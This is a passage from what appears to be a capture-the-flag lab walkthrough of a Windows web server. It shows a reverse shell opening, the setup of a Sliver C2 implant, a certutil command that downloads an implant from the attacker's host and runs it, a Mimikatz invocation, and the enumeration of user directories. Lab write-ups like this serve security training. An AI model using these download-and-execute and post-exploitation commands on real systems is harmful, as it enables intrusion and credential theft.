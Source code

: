 Note that my IP address adjust due to some conflictions I was having with the website - I made sure to reload the machine and it worked fine. The new IP address is `10.10.66.232`. Now that's finished, we'll access the website to execute our payload. We can simply curl the payload from our terminal in order to execute it. `curl http://10.10.66.232`.

```
[*] Command shell session 1 opened (10.8.0.173:9001 -> 10.10.66.232:49892) at 2024-06-03 22:24:55 -0400

Shell Banner:
Microsoft Windows [Version 10.0.20348.2159]
-----
c:\windows\system32\inetsrv>
```

# Reconnaissance on Host

Now that we have access to the machine, we can look around to see if there's any files that will return any valid information. We're currently running as `inetsrv`, meaning we'll need to compromise a user in order to progress any further.

I set up a Sliver C2 server on this machine to ensure that we could access the resources to and from relatively easily. I normally use Havoc on Windows machines, though as you can see there is no AV enabled on this machine.

```
PS C:\Gitea\data> "Invoke-Mimikatz"
"Invoke-Mimikatz"
Invoke-Mimikatz
```

You can curl the Sliver implant after creating it to the machine by using `certutil.exe`.

```
PS C:\temp> certutil.exe -urlcache -f http://10.8.0.173:9002/lock.exe lock.exe; .\lock.exe
```

There seems to be a decent amount of programs installed on the machine, however you'll notice that there are two users within `C:\Users`.

```
    Directory: C:\Users

Mode                 LastWriteTime         Length Name                                           
----                 -------------         ------ ----   
d-----        12/27/2023   2:00 PM                .NET v4.5                                      
d-----        12/27/2023   2:00 PM                .NET v4.5 Classic
d-----        12/27/2023  12:01 PM                Administrator    
d-----        12/28/2023  11:36 AM                ellen.freeman  
d-----        12/28/2023   6:14 AM                gale.dekarios  
d-r---        12/27/2023  10:21 AM                Public
```

What's interesting is that we have access to `ellen.freeman`'s home directory. While there isn't a flag in this user's home directory, there is an interesting file in their home directory.

